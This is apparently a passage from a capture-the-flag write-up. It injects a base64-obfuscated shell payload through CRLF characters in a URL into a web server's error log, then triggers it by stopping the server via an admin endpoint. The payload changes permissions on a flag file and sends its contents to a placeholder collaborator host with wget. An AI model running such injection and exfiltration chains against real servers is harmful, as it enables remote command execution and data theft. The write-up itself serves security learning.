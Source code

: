 ```bash
echo <base64>chmod 777 /flag.sh;wget https://<collaborator>/?a=`cat /flag.sh|base64`</base64>|base64 -d|sh
```
Now we can trigger a 404 error and write the payload to the log file:
```bash
http://[container]/asd%0A%0Decho%20Y2htb2QgNzc3IC9mbGFnLnNoO3dnZXQgaHR0cHM6Ly88Y29sbGFib3JhdG9yPi8/YT1gY2F0IC9mbGFnLnNofGJhc2U2NGA=|base64%20-d|sh%20%23
```
After request log file contains the next data:
```
2025/05/25 11:11:01.426 ERROR   http.log.error  dial tcp: lookup asd
echo Y2htb2QgNzc3IC9mbGFnLnNoO3dnZXQgaHR0cHM6Ly88Y29sbGFib3JhdG9yPi8/YT1gY2F0IC9mbGFnLnNofGJhc2U2NGA=|base64 -d|sh #: no such host  {"request": {"remote_ip": "192.168.65.1", "remote_port": "21150", "client_ip": "192.168.65.1", "proto": "HTTP/1.1", "method": "GET", "host": "[container]", "uri": "/asd%0A%0Decho%20Y2htb2QgNzc3IC9mbGFnLnNoO3dnZXQgaHR0cHM6Ly88Y29sbGFib3JhdG9yPi8/YT1gY2F0IC9mbGFnLnNofGJhc2U2NGA=|base64+-d|sh%20%23", "headers": {"Sec-Fetch-Site": ["none"], "Upgrade-Insecure-Requests": ["1"], "Sec-Fetch-Mode": ["navigate"], "Sec-Fetch-User": ["?1"], "Accept": ["text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"], "Accept-Language": ["en-US,en;q=0.5"], "Sec-Fetch-Dest": ["document"], "Priority": ["u=0, i"], "User-Agent": ["Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0"], "Accept-Encoding": ["gzip, deflate, br"], "Connection": ["keep-alive"]}}, "duration": 0.001161833, "status": 502, "err_id": "j9ckvd3i0", "err_trace": "reverseproxy.statusError (reverseproxy.go:1390)"}
```
The final step is to stop the server and trigger the payload:
```
http://[container]/127.0.0.1:2019/stop
```
